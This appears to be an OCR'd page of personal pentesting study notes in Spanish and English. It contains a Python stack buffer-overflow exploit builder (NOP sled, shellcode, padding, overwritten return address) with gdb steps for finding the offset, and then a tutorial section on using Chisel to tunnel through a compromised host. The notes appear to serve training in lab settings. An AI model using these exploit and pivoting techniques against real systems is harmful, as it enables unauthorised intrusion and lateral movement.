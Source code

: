 calculated\_offset = 608rip = 0x7fffffffe2fcpayload\_len = calculated\_offset + 8 # overwrite base pointernop\_payload = 300 \* nopshell\_len = len(buf)nop\_len = len(nop\_payload)padding = &#39;A&#39; \* (payload\_len - shell\_len - nop\_len)payload = nop\_payload + buf +padding + pack(&quot;\&lt;Q&quot;, rip)

print(payload)  |
| --- |

Usar gdb

gdb bof

run \&lt; \&lt;(python -c &#39;print(&quot;patron\_creado&quot;)&#39;)

\&lt;\&lt;aquí se provocará el Segmentation Fault\&gt;\&gt;

(gdb) info register

Rbp

Tomar nota del RBP para hacer el offset query



Ejecutar

./bof \&lt; \&lt;(python bof.py)





# Chisel

sábado, 20 de marzo de 2021

08:26

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It&#39;s written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn&#39;t require SSH access on the compromised target is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool&#39;s [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using gunzip, and executed as normal:

![](RackMultipart20210412-4-pcx9xb_html_87faf955239e034f.png)

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:

scp -i KEY chisel user@target:/tmp/chisel-USERNAME

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: chisel client|server --help
